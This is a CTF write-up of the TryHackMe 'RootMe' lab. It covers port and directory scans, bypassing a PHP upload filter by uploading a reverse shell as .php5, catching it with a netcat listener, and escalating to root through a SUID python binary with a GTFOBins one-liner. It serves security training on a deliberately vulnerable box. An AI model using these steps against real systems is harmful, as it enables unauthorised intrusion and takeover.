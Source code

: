 # RootMe
**Date:** October 9th 2022

**Author:** j.info

**Link:** [**RootMe**](https://tryhackme.com/room/rrootme) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>

![](images/rootme0.png)

<br>

## Objectives
- Scan the machine, how many ports are open?
- What version of Apache is running?
- What service is running on port 22?
- What is the hidden directory?
- user.txt
- Search for files with SUID permission, which file is weird?
- root.txt

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
```

That answers the first 3 questions.

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 30 -r -x php,txt,html -w dir-med.txt`

```
/index.php            (Status: 200) [Size: 616]
/css                  (Status: 200) [Size: 1126]
/js                   (Status: 200) [Size: 959] 
/uploads              (Status: 200) [Size: 744]
/panel                (Status: 200) [Size: 732]
```

That answers the 4th question.

<br>

## Website Digging

Visiting the main page:

![](images/rootme1.png)

Taking a look at /panel gives me a way to upload files, which I'm going to guess end up in the /uploads directory we found above:

![](images/rootme2.png)

I upload the pentestmonkey reverse .php shell and it looks like there are file type filters:

![](images/rootme3.png)

I test to see if it blocks all .php types and manage to upload it as a .php5:

![](images/rootme4.png)

And looking in /uploads confirms it's there:

![](images/rootme5.png)

<br>

## System Access

I set up a netcat listener on my system and click the file I uplaoded on the webpage:

```
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.35.253] 38130
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 02:57:54 up 12 min,  0 users,  load average: 0.00, 0.24, 0.34
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (908): Inappropriate ioctl for device
bash: no job control in this shell
www-data@rootme:/$
```

And quickly fix my shell since python3 is available:

```
www-data@rootme:/$ which python3
which python3
/usr/bin/python3
www-data@rootme:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@rootme:/$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                                                        
┌──(kali㉿kali)-[~/work/tools]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 4444

www-data@rootme:/$ export TERM=xterm-256color
www-data@rootme:/$
```

<br>

## System Enumeration

I check `sudo -l` but it requires a password.

Other than root we have 2 users with shells:

```
rootme:x:1000:1000:RootMe:/home/rootme:/bin/bash
test:x:1001:1001:,,,:/home/test:/bin/bash
```

Looking at their home directories doesn't give us anything useful.

Looking in the /var/www directory shows us the user.txt flag:

`wc -c /var/www/user.txt`

```
21 /var/www/user.txt
```

I also notice a .bash_history file here that shows some things the author probably didn't intend to. But, honestly, I would have checked for SUID files next anyways. Running:

`find / -perm /4000 2>/dev/null`

Shows us that the python binary has SUID set which gives us the answer to the 5th question:

```
-rwsr-sr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python
```

<br>

## Root

The .bash_history file and GTFOBins list the same method to escalate over to root with the SUID python binary:

`python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

```
www-data@rootme:/$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
```

And over in /root we find the answer to the 6th and final question in root.txt:

`wc -c /root/root.txt`

```
26 /root/root.txt
```

You can also view the .bash_history file in /root to get a sense of some of the things the author did to create this box.

<br>

With that we've completed this CTF!

![](images/rootme6.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding a page on the website that lets you **upload files**
- Bypassing the **.php filter** by uploading a reverse shell as **.php5**
- Using the **reverse shell** that was uploaded to get our initial foothold on the system
- The **python binary** had the **SUID** bit set and we use it to escalate to root

<br>

Many thanks to:
- [**ReddyyZ**](https://tryhackme.com/p/ReddyyZ) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)